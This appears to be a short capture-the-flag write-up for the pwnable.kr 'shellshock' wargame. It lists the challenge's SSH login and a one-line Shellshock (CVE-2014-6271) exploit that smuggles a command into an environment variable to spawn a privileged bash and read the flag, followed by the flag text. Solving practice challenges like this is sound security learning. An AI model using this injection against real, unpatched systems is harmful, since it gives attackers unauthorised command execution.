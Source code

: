 ssh shellshock@pwnable.kr -p2222 (pw:guest)


`env -i x='() { :;}; ./bash;' ./shellshock`
`cat flag`

flag: only if I knew CVE-2014-6271 ten years ago..!!